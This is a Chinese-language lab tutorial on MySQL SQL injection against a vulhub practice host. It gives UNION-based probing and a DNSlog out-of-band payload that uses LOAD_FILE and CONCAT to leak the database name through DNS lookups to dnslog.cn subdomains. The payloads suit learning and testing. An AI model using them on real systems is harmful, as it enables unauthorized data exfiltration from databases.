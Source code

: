 ### 0x00.3 MySQL 自查询与函数

> 不太好总结

1. `concat()` 返回的已经是一个字符串了， 因此，不需要在外层再加一次 **单引号** 。
2. `load_file(str)` 可以不需要与 `select` 互用执行。
3. 使用 `select` 查询结果， 记得在外层加括号， 构建自查询 `(select ...)`
4. **括号** 太多， 注意闭合



## 0x01 探测注入点

探测是否存在 SQL 注入漏洞。 
虽然说肯定有， 但是还是多写一下 `UNION` 语句。

```bash
http://vulhub.example.com:8022/dns/?id=1%20and%201=2%20union%20select%201,2

## 位置为 2 
```


## 0x02 Web渗透， 从入门到放弃

+ 工具网站: http://dnslog.cn/
+ 工具插件: [chrome extension: hackbar](https://chrome.google.com/webstore/detail/hackbar/ginpbkfigcoaokgflihfhhmglmbchinc?utm_source=chrome-ntp-icon)


### 0x02.1 测试是否可以利用 dnslog 并获取当前库名

**首先来构建语句**

```sql
-- dbname
select database();

-- concat
select CONCAT('//', database(), '.719da4.dnslog.cn/1.txt') ;

-- load_file
SELECT LOAD_FILE(CONCAT('//', database(), '.719da4.dnslog.cn/1.txt')) ;
```

**执行漏洞利用**

```bash
http://vulhub.example.com:8022/dns/?id=1 AND LOAD_FILE(CONCAT('//', database(), '.pewhvo.dnslog.cn/1.txt'))

# maoshe.pewhvo.dnslog.cn
```

### 0x02.2 误入歧途
